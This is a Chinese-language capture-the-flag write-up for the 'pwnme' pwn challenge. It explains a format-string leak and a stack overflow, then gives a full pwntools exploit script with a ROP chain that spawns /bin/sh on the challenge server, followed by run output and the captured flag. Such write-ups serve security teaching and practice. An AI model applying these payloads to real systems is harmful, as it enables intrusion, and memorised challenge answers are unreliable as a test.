





# pwnme

## 题目描述
---
```
nc 106.75.2.53 10006

附件下载
```

## 题目来源
---
“百度杯”CTF比赛 十一月场

## 主要知识点
---
格式化字符串漏洞 栈溢出

## 题目分值
---
50


## 解题思路
---

安全机制，开启了栈不可执行和got表不可写保护。



### 程序溢出点



在函数sub_400AF7中，v8可以读入0x12C个字节，同时if判断中对v8进行字节截断，所以我们可以输入如0x101个字符，在保证能够溢出到返回地址的同时，v8字节截断后的0x01又能够通过if判断，然后通过函数sub_400A90进行溢出。



函数sub_400AD1中存在格式化字符串漏洞，我们可以通过这个漏洞泄露任意地址的内容，并通过DynELF类获得system函数的地址。

### 整体思路

这个程序首先让你输入username跟password，然后提供三个选项



溢出漏洞位于选项2中，格式化漏洞在选项1中。

我们在输入完username和password后，首先进入选项2中，然后构造合适的payload，然后让程序调用选项1能够泄露任意地址的内容，从而可以通过DynELF类获取sytem地址。

然后让程序进入选项2中，构造能够溢出并绕过if的payload，通过ROP技术调用read函数输入/bin/sh并调用sytem函数完成system('/bin/sh')pwn掉程序。

### ROP的构造

攻击脚本如下

```python
# -*- coding:utf8 -*-
from pwn import *

io = remote('106.75.2.53',10006)

io.recvuntil('Input your username(max lenth:40): \n')
io.sendline('asd')      #输入username
io.recvuntil('Input your password(max lenth:40): \n')
io.sendline('1')        #输入password

def leak(addr):
    io.recvuntil('>')
    io.sendline('2')
    io.recvuntil('please input new username(max lenth:20): \n')
    io.sendline('BBBBB')       #输入任意大于0小于0x20个字符
    io.recvuntil('please input new password(max lenth:20): \n')
    payload1 = '%12$s'         #64位前六个参数用寄存器传参，6个以后用栈传参，需要泄露内容  
                               #的地址在rsp下6位处，所以printf取第(6+7)个参数
    payload1 += 'aaaaaaa'      #padding  使地址处在第13个参数处
    payload1 += p64(addr) 
    io.send(payload1)
    io.recvuntil('>')
    io.sendline('1')
    content = io.recvuntil('aaaaaaa')    #读取对应地址泄露的内容
    # log.info("%#x -> %s" %(addr, (content or '').encode('hex')))
    if len(content) == 13:      #前面5个B，并且在栈中以0x0A结尾，也就是6个字节，后面7个a，一共13个字节，说明没有内容泄露
         return '\x00'
    else:
        return content[6:-7]      #返回泄露的内容

d = DynELF(leak,elf = ELF('./pwnme'))
system_addr = d.lookup('system','libc')     #获取system函数在内存中的位置
log.info('system_addr:%#x' % system_addr)

io.recvuntil('>')
io.sendline('2')
io.recvuntil('please input new username(max lenth:20): \n')
io.sendline('A')      #输入任意大于0小于0x20个字符
io.recvuntil('please input new password(max lenth:20): \n')

pop_rdi_addr = 0x400ed3      #pop rdi;ret
pop_5_addr = 0x400ecb        #pop rbp;pop r12;pop r13;pop r14;pop r15;ret
read_got = 0x601FC8          #read函数got表地址
bin_sh_addr = 0x602010       #/bin/sh写入地址，在bss段中
mov_3_addr = 0x400EB0        #mov rdx,r13;mov rsi,r14;mov edi,r15d; call qword ptr [r12 + rbx*8];add rbx,1;cmp rbx,rbp;jnz short loc_400eb0

payload = ''
payload +='A' * 0x28         #padding 0x20个字节到栈底，加8溢出程序
payload += p64(pop_5_addr) 
payload += p64(0x1)          #rbp = 1,由于在mov_3_addr代码段有命令cmp rbx，rbp，jnz short loc_400eb0；rbx为0并且执行了add rbx，1指令，所以将rbp置1防止程序跳转发生错误
payload += p64(read_got)     #r12 = read函数got表地址
payload += p64(0x8)          #r13 = 0x8
payload += p64(bin_sh_addr)  #r14 = /bin/sh地址
payload += p64(0)            #r15 = 0
payload += p64(mov_3_addr)   #rdx = 0x8，rsi = /bin/sh地址，edi = 0，这段代码相当于read(0，/bin/sh地址，0x8)
payload += p64(0x8) * 7      #运行完mov_3_addr指令后接下来有add rsp，8和6个pop才到ret，用7个p64(0x8)滑过这段代码到ret
payload += p64(pop_rdi_addr)
payload += p64(bin_sh_addr)  #rdi  = /bin/sh地址
payload += p64(system_addr)  #system('bin/sh')
payload = payload.ljust(0x101,'A')    #填充到0x101个字节绕过if

io.sendline(payload)
io.sendline('/bin/sh\x00')    #输入/bin/sh
io.sendline('cat flag')       #由于交互一会就会中断，所以直接发送命令获得flag
io.interactive()
```




```
python exp.py              

[+] Opening connection to 106.75.2.53 on port 10006: Done
[*] '/home/sea/ICHUNQIU/ichunqiu_50_pwnme/result/pwnme'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Loading from '/home/sea/ICHUNQIU/ichunqiu_50_pwnme/result/pwnme': 0x7f730d1c5168
[+] Resolving 'system' in 'libc.so': 0x7f730d1c5168
[!] No ELF provided.  Leaking is much faster if you have a copy of the ELF being leaked.
[*] Build ID not found at offset 0x174
[*] .gnu.hash/.hash, .strtab and .symtab offsets
[*] Found DT_GNU_HASH at 0x7f730cf97c00
[*] Found DT_STRTAB at 0x7f730cf97c10
[*] Found DT_SYMTAB at 0x7f730cf97c20
[*] .gnu.hash parms
[*] hash chain index
[*] hash chain
[*] system_addr:0x7f730cc19390
[*] Switching to interactive mode
flag{b6401733-a29b-425a-bd8a-3927345c3505}
```

## 参考
---
https://www.cnblogs.com/luoleqi/p/11567953.html